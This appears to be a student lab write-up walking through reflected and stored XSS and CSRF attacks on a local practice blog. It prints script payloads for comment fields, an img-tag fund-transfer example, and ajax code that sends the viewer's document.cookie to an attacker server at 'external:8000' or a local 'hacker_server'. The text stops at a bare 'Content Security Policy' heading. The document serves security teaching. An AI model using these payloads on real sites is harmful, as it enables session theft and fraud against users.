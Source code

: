 # XSS and CORS

## Environment setup

After setting the app, installing the requirments, etc. We open the browser one in normal mode and
the other in incognito mode. The Admin will be in the normal and the attacker in the incognito.
We will know proceed into making a couple of attacks to the website.

Access the site in the URL **http://aula3:6543**

## Cross-Site Scripting

### Reflected XSS Attack

In this type of attack it is assumed that the attack is non-persistent. With this attack it becomes
possible to manipulate the browser Document Object Model (DOM) for a single user, or multiple which
access a page through the same specially crafted **URL** depicts a typical scenario.

#### How to do it in our Website:

Using the Blog Search bar, which searches directly using the website, we can pass:
```
<script>alert("You are under attack")</script>
```
Because we are passing a script tag, the site will interpert it as being part of the code and will
execute it (alert is not the best for attackers but shows well what happens).

URL generated: `http://aula3:6543/search?q=%3Cscript%3Ealert%28%22You+are+under+attack%22%29%3C%2Fscript%3E`

### Stored XSS Attack

It allows an attacker to place malicious script (Javascript) into a webpage. Victms that
access the website will render all the scripts, including the injected one.
Common in a place where the information is shared between users through web technologies
(e.g. forums and blogs).This way the attacker composes a message, hides some script in its source
code, and puts it in place, which is accessed by a victim. All users visiting that place would
execute the exploit.
There are 2 types of **Stored XSS Attack**, **Server Side** and **Client Side**.

#### Server Side

The payload must be included in the web page when the page is built by the server.

#### Client Side

Loads dynamic content into the web page using JS. `<script>` tags are not evaluated directly,
but JS can be included in objects event handlers (e.g. onload, onclick).

#### How to do it in our Website:

* Server Side:
As we can see in our website there is a place where people can comment on a blog. This comment
is stored in the code and loads when the page loads.
The name tag does not let us execute a XSS atack but the comment does.
We put whtever name we want and make a comment like:
```
<script>alert("Loading Virus...")</script>
```
Every user that loads the page will receive this alert.

* Client Side:

Using the same principle as the last one, but using a `<button>` yag this time, we can execute
a Client Side attack.
On the comment put:
```
<button type="button" onclick="alert('You should not have clicked!')">Click Me!</button>
```
Once again any user that cicks the button will suffer the exploit.

### CSRF Attack

The Cross-Site Request Forgery, CSRF, attack consists in injecting code that, using the
credentials and capabilities of the browser viewing a given object, may attack another
system. This attack can be used for simple Denial of Service (DoS) or Distributed Denial
of Service (DDoS), tracking users, or invoke requests on systems with the identity of
the victim.

This exploits the fact that, for usability, functionality, and performance purposes,
systems cache authentication credentials in small tokens named **cookies**.
When a user accesses a service, such as a social sharing application,
or a Online Banking solution, a session is initialized, and will be kept valid for a long
period. Even if the user abandons the webpage. However, if the user visits another page
which has a CSRF exploit, targeting the first page, it is possible to invoke services
using the user identity, without his knowledge. This attack is frequently don using the
`<img>` tag, however other tags can be used.

As an example, consider that a forum post contains the following content:
```
Totally legit message :)
<img src='https://vulnerable-bank.com/transfer.jsp?amount=1000&to_nib=12345300033233'></img>
```
When the browser tries to load the image, it will invoke an action to an external server.
In this hypothetical case, it would transfer funds from the victims bank account to the
attacker's bank account.

Sometimes a more complex interaction is required, and the attack will actually inject JS code:
```
$.ajax({
url: 'http://external:8000/cookie',
type: 'POST',
data: "username=Administrator&cookie=" + document.cookie,
});
```

#### Exercise:
-	1) Navigate to the directory where we dumped our downloaded package
-	2) Run the script **hacker_server.py**
-	3) Do a POST to **http://localhost:8000**

This script will dump to **stdout** all data that is posted to it (using HyperText
Transfer Protocol (HTTP) POST).

Following the last exercise, we already know that we can inject  `<script>` tags
into a post's page by creating a comment and putting some code into the
Description field. So, by including the following code into the comment:
```
<script>
	$.ajax({
	        url: 'http://localhost:8000/cookie',
		type: 'POST',
		data: "username=Administrator;cookie=a"+document.cookie,
	})
</script>
```

As we can see in the running **hacker_server** we have received the Administrator
Session Cookie.

## Content Security Policy
